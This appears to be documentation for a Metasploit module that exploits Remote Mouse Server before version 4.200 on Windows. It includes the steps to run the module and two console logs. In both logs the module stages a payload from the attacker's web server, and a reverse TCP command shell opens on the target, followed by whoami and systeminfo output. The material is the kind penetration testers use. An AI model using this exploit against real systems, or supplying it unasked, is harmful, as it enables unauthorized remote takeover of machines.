 ## Vulnerable Application

This module utilizes the Remote Mouse Server by Emote Interactive protocol
to deploy a payload and run it from the server on versions < 4.200 (500 server response).
This module will deploy
a payload regardless if server authentication is required.
Tested against 4.110, current at the time of module writing

Version 4.110 can be downloaded from
(unofficial site)[https://remote-mouse.en.uptodown.com/windows/download/4546712]
    
## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/windows/misc/remote_mouse_rce`
4. Set `rhost` and `lhost` as required.
5. Do: `run`
6. You should get a shell as the user who is running Remote Mouse.

## Options

### SLEEP

The length of time, in seconds, to sleep between each command. This gives the remote program time to process the command on screen.
Defaults to `1`.

### PATH

The path where the payload should be downloaded/staged to. Defaults to `c:\\Windows\\Temp\\`.

## Scenarios

###  Remote Mouse 4.110 on Windows 10

```
resource (remote_mouse.rb)> use exploits/windows/misc/remote_mouse_rce
[*] Using configured payload windows/shell/reverse_tcp
resource (remote_mouse.rb)> set rhosts 192.168.2.95
rhosts => 192.168.2.95
resource (remote_mouse.rb)> set lhost 192.168.2.199
lhost => 192.168.2.199
resource (remote_mouse.rb)> set verbose true
verbose => true
msf exploit(windows/misc/remote_mouse_rce) > run

[*] Started reverse TCP handler on 192.168.2.199:4444 
[*] 192.168.2.95:1978 - Running automatic check ("set AutoCheck false" to disable)
[+] 192.168.2.95:1978 - The target appears to be vulnerable. Received handshake with version: 411
[*] 192.168.2.95:1978 - Connecting
[*] 192.168.2.95:1978 - Sending Windows key
[*] 192.168.2.95:1978 - Opening command prompt
[*] 192.168.2.95:1978 - Sending stager
[*] 192.168.2.95:1978 - Using URL: http://192.168.2.199:8080/
[+] 192.168.2.95:1978 - Payload request received, sending 73802 bytes of payload for staging
[+] 192.168.2.95:1978 - Payload request received, sending 73802 bytes of payload for staging
[*] 192.168.2.95:1978 - Executing payload
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (267 bytes) to 192.168.2.95
[*] Command shell session 1 opened (192.168.2.199:4444 -> 192.168.2.95:49962) at 2022-09-27 16:33:02 -0400
[*] 192.168.2.95:1978 - Server stopped.
[!] 192.168.2.95:1978 - This exploit may require manual cleanup of 'c:\Windows\Temp\NADYvmtxr.exe' on the target


Shell Banner:
Microsoft Windows [Version 10.0.16299.125]
-----
          

C:\Users\windows>whoami 
whoami
win10prolicense\windows

C:\Users\windows>systeminfo
systeminfo

Host Name:                 WIN10PROLICENSE
OS Name:                   Microsoft Windows 10 Pro
OS Version:                10.0.16299 N/A Build 16299
```

###  Remote Mouse 4.110 on Windows 10, with a password


```
resource (remote_mouse.rb)> use exploits/windows/misc/remote_mouse_rce
[*] Using configured payload windows/shell/reverse_tcp
resource (remote_mouse.rb)> set rhosts 192.168.2.95
rhosts => 192.168.2.95
resource (remote_mouse.rb)> set lhost 192.168.2.199
lhost => 192.168.2.199
resource (remote_mouse.rb)> set verbose true
verbose => true
msf exploit(windows/misc/remote_mouse_rce) > exploit

[*] Started reverse TCP handler on 192.168.2.199:4444 
[*] 192.168.2.95:1978 - Running automatic check ("set AutoCheck false" to disable)
[+] 192.168.2.95:1978 - The target appears to be vulnerable. Received handshake with version: 411
[*] 192.168.2.95:1978 - Connecting
[*] 192.168.2.95:1978 - Sending Windows key
[*] 192.168.2.95:1978 - Opening command prompt
[*] 192.168.2.95:1978 - Sending stager
[*] 192.168.2.95:1978 - Using URL: http://192.168.2.199:8080/
[+] 192.168.2.95:1978 - Payload request received, sending 73802 bytes of payload for staging
[+] 192.168.2.95:1978 - Payload request received, sending 73802 bytes of payload for staging
[*] 192.168.2.95:1978 - Executing payload
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (267 bytes) to 192.168.2.95
[*] Command shell session 1 opened (192.168.2.199:4444 -> 192.168.2.95:49975) at 2022-09-27 16:36:09 -0400
[*] 192.168.2.95:1978 - Server stopped.
[!] 192.168.2.95:1978 - This exploit may require manual cleanup of 'c:\Windows\Temp\86a4GsbpomvEgUS.exe' on the target


Shell Banner:
Microsoft Windows [Version 10.0.16299.125]
-----
          

C:\Users\windows>
```

